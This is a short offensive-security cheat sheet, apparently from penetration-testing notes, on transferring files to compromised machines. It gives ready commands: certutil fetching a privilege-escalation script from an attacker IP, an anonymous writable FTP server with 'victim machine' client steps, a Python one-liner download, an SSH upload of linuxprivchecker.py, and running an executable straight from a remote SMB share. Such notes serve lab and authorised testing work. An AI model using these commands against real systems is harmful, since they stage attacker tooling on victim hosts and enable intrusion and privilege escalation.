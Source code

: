 # File Transfers

## Windows

```text
certutil.exe -urlcache -split -f "http://10.11.0.98/Powerless.bat" Powerless.bat
```

## FTP

### Server

```text
pip install pyftpdlib
python -m pyftpdlib -p 21 -w
# On victim machine
ftp anonymous@10.11.0.98
```

### Windows client

```text
ftp -A %ATTACKER_IP%
# switch to binary mode
binary
get <file-name>
```

### Linux Client

```text
ftp $TARGET_IP
```

## Python

\*It seems not working for large binary file.

```text
python -c "import urllib; print urllib.urlopen('http://10.11.0.98/<filename>').read()" > <filename>
```

## SSH

```bash
ssh user@10.11.1.252 "cat > linuxprivchecker.py" < linuxprivchecker.py
```

## SMB

### Server

```bash
smbserver.py a /usr/share/windows-binaries/
```

### Windows client

```bash
C:\> \\10.11.0.x\a\whoami.exe
```


